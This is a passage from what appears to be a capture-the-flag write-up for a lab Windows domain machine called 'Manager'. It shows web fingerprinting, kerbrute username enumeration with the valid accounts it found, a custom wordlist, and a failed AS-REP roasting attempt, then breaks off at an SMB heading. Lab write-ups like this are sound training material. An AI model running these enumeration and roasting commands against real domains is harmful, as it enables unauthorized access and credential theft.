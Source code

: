 Web site info : `whatweb 10.10.11.236`

```bash
http://10.10.11.236 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.236], JQuery[3.4.1], Microsoft-IIS[10.0], Script[text/javascript], Title[Manager], X-UA-Compatible[IE=edge]
```

**kerberos (88):**

 

enumerate user with kerbrute : `kerbrute userenum -d "manager.htb" --dc 10.10.11.236 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt`

```bash
2023/11/11 15:36:23 >  [+] VALID USERNAME:       ryan@manager.htb
2023/11/11 15:36:26 >  [+] VALID USERNAME:       guest@manager.htb
2023/11/11 15:36:28 >  [+] VALID USERNAME:       cheng@manager.htb
2023/11/11 15:36:29 >  [+] VALID USERNAME:       raven@manager.htb
2023/11/11 15:36:37 >  [+] VALID USERNAME:       administrator@manager.htb
2023/11/11 15:36:57 >  [+] VALID USERNAME:       Ryan@manager.htb
2023/11/11 15:36:59 >  [+] VALID USERNAME:       Raven@manager.htb
2023/11/11 15:37:07 >  [+] VALID USERNAME:       operator@manager.htb
2023/11/11 15:38:21 >  [+] VALID USERNAME:       Guest@manager.htb
2023/11/11 15:38:22 >  [+] VALID USERNAME:       Administrator@manager.htb
2023/11/11 15:39:19 >  [+] VALID USERNAME:       Cheng@manager.htb
2023/11/11 15:42:06 >  [+] VALID USERNAME:       jinwoo@manager.htb
2023/11/11 15:42:35 >  [+] VALID USERNAME:       RYAN@manager.htb
2023/11/11 15:44:26 >  [+] VALID USERNAME:       RAVEN@manager.htb
2023/11/11 15:44:34 >  [+] VALID USERNAME:       GUEST@manager.htb
```

Create Wordlist : 

```jsx
Administrator
Cheng
cheng
Ryan
ryan
Raven
raven
JinWoo
jinwoo
ChinHae
chinhae
Operator
operator
```

Lets try asreproasting attack with the user list : `GetNPUsers.py -usersfile user.lst -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.11.236 'manager.htb/'`

**Don’t Work !** 

**SMB (445,139) :**
